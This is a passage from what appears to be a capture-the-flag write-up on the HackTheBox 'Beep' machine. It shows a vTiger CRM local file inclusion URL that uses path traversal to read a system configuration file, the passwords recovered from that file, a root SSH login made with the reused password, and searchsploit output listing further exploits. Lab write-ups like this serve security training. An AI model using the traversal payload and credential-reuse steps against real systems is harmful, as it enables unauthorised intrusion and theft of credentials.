 In our enumeration of the webservice I found a directory https://10.10.10.7/vtigercrm/.

So this exploit may work on our target. 


```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Visiting the above vulnerable URL we will get access to the AMportals configuration file.

In the file we find some creds.

```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

So now we have a couple of usernames and passwords that we can try against the targets SSH server. 

Using the "AMPMGRPASS" above with the root user we get admin access on the box.

```
root@kali:~/htb/beep# ssh root@10.10.10.7
root@10.10.10.7's password: 
Last login: Fri Aug 25 18:05:54 2017

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

## Solution #2 - vTiger CRM 5.1.0 - Local File Inclusion

There is another LFI vulnerability in the vtiger CMS, among other stuff. 

Output of known exploits on vTiger CMS.

```
root@kali:~/htb/beep# searchsploit vtiger
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Vtiger - 'Install' Remote Command Execution (Metasploit)                                                                                                            | exploits/php/remote/32794.rb
Vtiger CRM 6.3.0 - (Authenticated) Arbitrary File Upload (Metasploit)                                                                                               | exploits/php/webapps/44379.rb
```